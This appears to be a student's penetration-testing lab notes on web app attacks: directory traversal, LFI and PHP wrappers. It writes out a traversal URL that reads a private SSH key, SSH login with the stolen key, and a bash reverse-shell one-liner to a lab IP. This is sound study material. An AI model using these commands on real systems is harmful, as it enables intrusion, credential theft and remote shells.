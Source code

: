 ## Common Web App Attacks

### Directory Traversal

1. check for directory traversal
2. try to find private ssh keys
3. connect via ssh to shell

`/var/www/html` is typical linux web dir root

should check for ssh keys
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

setting up ssh after stealing key
-i use this file
```
chmod 400 $dt_key
ssh -i dt_key -p 2222 offsec@mountaindesserts.com
```

linx -> /etc/passwd
windows -> C:\Windows\System32\drivers\etc\hosts
try both \ and / with file paths on windows

../ might be filtered by a firewall -> so we may want to encode the dots

### LFI

bash tcp reverse shell one liner

```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```

risk with the above is that it could be using the bourne shell rather than bash
wrap it in bash -c to ensure no syntax errors

```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
```
Outside PHP, we can also leverage LFI and RFI vulnerabilities in other frameworks or server-side scripting languages including Perl,11 Active Server Pages Extended,12 Active Server Pages,13 and Java Server Pages
```

to check sudo privileges
```
sudo -l
```

### PHP Wrappers

can use a wrapper to see php source code.  often times anything with <?php> tags will get executed by the server. so we want the source code sent base64 encoded so that backend templating languages won't execute it.
